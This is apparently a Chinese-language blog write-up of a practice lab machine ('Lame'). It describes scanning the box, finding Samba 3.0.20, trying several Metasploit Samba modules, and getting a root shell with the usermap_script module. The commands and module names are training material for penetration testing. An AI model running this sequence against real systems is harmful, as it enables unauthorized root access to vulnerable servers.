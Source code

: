 ```yaml
---
title: lame（samba）
categories:
- training
tags:
- training
---
```




10.10.10.3

## scan
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

linux os

---

这个training应该很简单，以前做过：
[139端口——smbclient](https://whale3070.github.io/tools/2016/12/12/x/)

[kiotrix靶机（139端口samba）](https://whale3070.github.io/training/2017/10/01/kiotrix%E9%9D%B6%E6%9C%BA-139%E7%AB%AF%E5%8F%A3samba/)

![Screenshot from 2019-01-03 15-51-52](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/Screenshot%20from%202019-01-03%2015-51-52.png)

得知服务版本
Samba 3.0.20-Debian

## trying 1
![Screenshot from 2019-01-03 16-00-54](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/Screenshot%20from%202019-01-03%2016-00-54.png)
```
locate exploits/linux/remote/9950.rb
[*] exec: locate exploits/linux/remote/9950.rb

/root/exploit-database/exploits/linux/remote/9950.rb
/usr/share/exploitdb/exploits/linux/remote/9950.rb

msfconsole
search -h
search platform:linux type:exploit samba
 exploit/linux/samba/chain_reply          2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   exploit/linux/samba/is_known_pipename    2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   exploit/linux/samba/lsa_transnames_heap  2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   exploit/linux/samba/setinfopolicy_heap   2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   exploit/linux/samba/trans2open           2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   exploit/multi/samba/nttrans              2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow

use exploit/linux/samba/setinfopolicy_heap
show options 
查看Exploit target:
2:3.5.11~dfsg-1ubuntu2 on Ubuntu Server 11.10 
这个payload目标不对，于是
back
```
![Screenshot from 2019-01-03 16-12-30](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/Screenshot%20from%202019-01-03%2016-12-30.png)

#### 导入msf载荷
cd /root/.msf4/modules/exploits/
mkdir samba3.0.21-3.0.24 
cd samba*
cp /root/exploit-database/exploits/linux/remote/9950.rb .

重新启动msfconsole
search samba3

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/2.PNG)
突然发现，目标版本好像不符合条件，samba3.0.21-3.0.24

ORZ，太粗心了

## trying2:
Samba < 3.0.20 - Remote Heap Overflow
exp是一些C代码，需要编译运行，而且注释是意大利语的。。

## trying3:
google搜索Samba 3.0.20
https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

exploit/multi/samba/usermap_script

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/3.PNG)

执行后，直接就是root权限